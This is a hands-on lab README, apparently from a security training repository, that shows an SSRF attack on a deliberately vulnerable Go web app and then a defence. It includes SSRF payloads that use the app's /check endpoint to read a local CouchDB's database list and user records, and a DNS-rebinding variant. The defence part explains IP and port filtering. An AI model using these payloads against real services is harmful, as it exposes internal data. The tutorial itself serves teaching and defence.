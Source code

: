 # Go - SSRF Attack and Defense

## Instructions

> Let's first attack the vulnerable Server-Side Request Forgery Vulnerability in our Go application

### Setup Stack

```bash
cd go-ssrf-attack-defense/
```

```bash
./init-stack.sh
```

> This will spin up the mandatory database stack that we'll use to perform our attack

```bash
docker build -t ssrf-app .
```

> This will build our vulnerable SSRF app

```bash
docker run -p 8080:8080 -d --net=host ssrf-app
```

> This will run our vulnerable SSRF Web Application

### Attacking the SSRF Vulnerability

Now let's see if our application works as intended

```bash
http POST http://localhost:8080/check name=my-website url=http://httpbin.org/post
```

> This should return a response with the name and the base64 encoded content of the response from the URL
> You can base64 decode the content and you should find the response from the URL that you submitted.
> Let's try and exploit the SSRF service to access a local service

```bash
http POST http://localhost:8080/check name=my-website url=http://localhost:5984/_all_dbs
```

```bash
http POST http://localhost:8080/check name=my-website url=http://localhost:5984/users/_all_docs | jq -r .content | base64 -D
```

> You should see the user data in the response.

This attack could work extensively, even with DNS rebinding...

```bash
http POST http://localhost:8080/check name=my-website url=http://locally.cwedetails.com:5984/users/_all_docs | jq -r .content | base64 -D
```

All of these attacks confirm the possibility of performing SSRF attacks against the application.

Let's look at defense now...

### Defending against SSRF

First, copy the contents of `/root/go-ssrf-attack-defense/secure.txt` to `main.go` in the same directory

Let's look at the code....

One of the things we've done here is to write a "hook" to the http client library that we're making the URL request with

In Line 30, you should see `func secureSocketControl(network string, address string, conn syscall.RawConn) error {`

In this function we're doing the following:

* Checking if its TCP on IPv4 or IPv6 (line 31)
* Splitting the URL to host and port (line 35):
  * Check if Network Host is an IP address (this happens "post" DNS resolution, so this will always be an IP Address)
  * Check if the IP Addresses is a public IP Address. Private Addresses like 127.0.0.1, 10.x, 172.16.x are not allowed. This has been implemented in detail in `network.go`
  * Only allows if port is `80` or `443`. Any other port is not resolved

This prevents against:

* DNS Rebinding to a locally addressable IP address
* Non HTTP ports
* Invalid IP Addresses and protocols in TCP for both IPv4 and IPv6

All of this is being implemented in the function `requestHandler` where we're using a custom network client implementation for our HTTP client. This is exemplified in Line 76

```go
safeClient := &http.Client{
 Transport: safeTransport,
}
```

This ensures that our HTTP client is using the secure defaults to make HTTP requests and handle consequent responses.

Let's now attempt to perform SSRF against this more secure implementation

```bash
docker build -t ssrf-app .
```

> This will build our vulnerable SSRF app

```bash
docker run -p 8080:8080 -d --net=host ssrf-app
```

> This will run our vulnerable SSRF Web Application

Now let's see if our application works as intended

```bash
http POST http://localhost:8080/check name=my-website url=http://httpbin.org/post
```

> This should return a response with the name and the base64 encoded content of the response from the URL
> You can base64 decode the content and you should find the response from the URL that you submitted.
> Let's try and exploit the SSRF service to access a local service

```bash
http POST http://localhost:8080/check name=my-website url=http://localhost:5984/_all_dbs
```

> This should fail. Let's now try a DNS rebinding variant

```bash
http POST http://localhost:8080/check name=my-website url=http://locally.cwedetails.com:5984/users/_all_docs | jq -r .content | base64 -D
```
